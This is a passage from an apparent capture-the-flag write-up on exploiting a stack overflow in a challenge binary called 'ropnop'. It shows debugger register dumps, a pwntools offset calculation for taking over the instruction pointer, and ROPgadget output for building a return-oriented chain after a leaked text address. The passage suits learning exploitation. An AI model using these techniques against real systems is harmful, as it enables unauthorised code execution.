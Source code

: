 ```
0x000055dc480c12e1 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────
 RAX  0x0
 RBX  0x55dc480c12f0 (__libc_csu_init) ◂— endbr64  /* 0x8d4c5741fa1e0ff3 */
 RCX  0x0
 RDX  0x1337
 RDI  0x0
 RSI  0x7ffe44698560 ◂— 0x6161616261616161 ('aaaabaaa')
 R8   0x0
 R9   0x3f
 R10  0x55dc480c04a0 ◂— jb     0x55dc480c0507 /* 0x6474730064616572; 'read' */
 R11  0x246
 R12  0x55dc480c1070 (_start) ◂— endbr64  /* 0x8949ed31fa1e0ff3 */
 R13  0x7ffe44698660 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x6161616661616165 ('eaaafaaa')
 RSP  0x7ffe44698578 ◂— 0x6161616861616167 ('gaaahaaa')
 RIP  0x55dc480c12e1 (main+65) ◂— ret     /* 0x841f0f2e66c3 */
───────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
 ► 0x55dc480c12e1 <main+65>    ret    <0x6161616861616167>
```
`rsp` points to an address containing `0x6161616861616167 (gaaahaaa)`. The program now tries to return to this address, but because there is no valid memory at `0x6161616861616167` we get a segfault.

With the `cyclic_find` function we can calculate the offset to our input:
```python
...
p.sendline(b"A" * cyclic_find(b'gaaa') + b"XXXX")

...
```
We now control the instruction pointer, but the ropgadgets created by `gadget_shop` were invalidated. So we need to find other gadgets. The program kindly prints the start address of the text section, so we only need the offset in the text section to get a valid address.  [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) is a cool tool to do exactly that.
It has a command line option (`--range start-end`), with which you can set where it should start searching for gadgets. We know that we can only use gadgets after the end of the `ropnop` function.

```
pwndbg> disassemble ropnop
Dump of assembler code for function ropnop:
...
0x00005605c207729a <+154>:   pop    rbp
0x00005605c207729b <+155>:   ret
```
The end of ropnop has the address `0x00005605c207729b` which is an offset of `0x00005605c207729b - 0x5605c2076000 = 0x129b`. The length of the text section is `0x2000`. That makes our ROPgadget command :
```bash
$ ROPgadget --binary ropnop --range 0x129b-0x2000
Gadgets information
============================================================
0x000000000000135c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000000135e : add byte ptr [rax], al ; endbr64 ; ret
0x00000000000012dd : add esp, 0x20 ; pop rbp ; ret
0x0000000000001371 : add esp, 8 ; ret
0x00000000000012dc : add rsp, 0x20 ; pop rbp ; ret
0x0000000000001370 : add rsp, 8 ; ret
0x0000000000001363 : cli ; ret
0x000000000000136b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x0000000000001360 : endbr64 ; ret
0x000000000000133c : fisttp word ptr [rax - 0x7d] ; ret
0x00000000000012da : mov eax, ecx ; add rsp, 0x20 ; pop rbp ; ret
```